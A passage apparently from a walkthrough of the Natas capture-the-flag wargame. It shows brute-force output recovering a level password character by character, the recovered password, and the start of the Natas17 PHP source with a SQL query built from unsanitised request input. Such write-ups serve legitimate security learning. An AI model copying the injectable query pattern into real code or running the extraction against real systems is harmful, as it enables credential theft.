 ```bash
        fi
    done
done
```

```text
[+] Password: 8
[+] Password: 8P
[+] Password: 8Ps
[+] Password: 8Ps3
[+] Password: 8Ps3H
[+] Password: 8Ps3H0
[+] Password: 8Ps3H0G
[+] Password: 8Ps3H0GW
[+] Password: 8Ps3H0GWb
[+] Password: 8Ps3H0GWbn
[+] Password: 8Ps3H0GWbn5
[+] Password: 8Ps3H0GWbn5r
[+] Password: 8Ps3H0GWbn5rd
[+] Password: 8Ps3H0GWbn5rd9
[+] Password: 8Ps3H0GWbn5rd9S
[+] Password: 8Ps3H0GWbn5rd9S7
[+] Password: 8Ps3H0GWbn5rd9S7G
[+] Password: 8Ps3H0GWbn5rd9S7Gm
[+] Password: 8Ps3H0GWbn5rd9S7GmA
[+] Password: 8Ps3H0GWbn5rd9S7GmAd
[+] Password: 8Ps3H0GWbn5rd9S7GmAdg
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQ
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQN
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNd
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdk
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkh
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhP
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

### Natas17

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
```